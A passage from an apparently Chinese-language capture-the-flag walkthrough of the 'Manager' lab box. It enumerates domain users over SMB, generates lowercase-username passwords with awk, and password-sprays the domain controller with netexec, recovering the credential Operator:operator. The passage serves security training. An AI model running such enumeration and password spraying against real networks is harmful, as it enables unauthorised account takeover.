 ```bash
SMB         10.10.11.236    445    DC01             1000: MANAGER\DC01$ (SidTypeUser)
SMB         10.10.11.236    445    DC01             1101: MANAGER\DnsAdmins (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1102: MANAGER\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.236    445    DC01             1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1113: MANAGER\Zhong (SidTypeUser)
SMB         10.10.11.236    445    DC01             1114: MANAGER\Cheng (SidTypeUser)
SMB         10.10.11.236    445    DC01             1115: MANAGER\Ryan (SidTypeUser)
SMB         10.10.11.236    445    DC01             1116: MANAGER\Raven (SidTypeUser)
SMB         10.10.11.236    445    DC01             1117: MANAGER\JinWoo (SidTypeUser)
SMB         10.10.11.236    445    DC01             1118: MANAGER\ChinHae (SidTypeUser)
SMB         10.10.11.236    445    DC01             1119: MANAGER\Operator (SidTypeUser)
```

其中 `SidTypeUser` 代表用户，我们可以得到一份用户清单 `usernames.txt`

```
Administrator
Guest
krbtgt
DC01$
Zhong
Cheng
Ryan
Raven
JinWoo
ChinHae
Operator
```

然后我们简单尝试一下常见弱口令（偏脑洞，需要积累此操作）

1. 密码与用户名相同 --> 失败
2. 密码是用户名大写 --> 失败
3. 密码是用户名小写 --> 成功

```bash
kali@kali[~]$ cat usernames.txt | awk '{ print  tolower($0) }' > passwords.txt
kali@kali[~]$ netexec smb 10.10.11.236 -u usernames.txt -p passwords.txt --no-bruteforce --continue-on-success
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [-] manager.htb\Administrator:administrator STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [-] manager.htb\Guest:guest STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\krbtgt:krbtgt STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\DC01$:dc01$ STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\Zhong:zhong STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\Cheng:cheng STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\Ryan:ryan STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\Raven:raven STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\JinWoo:jinwoo STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\ChinHae:chinhae STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [+] manager.htb\Operator:operator
```
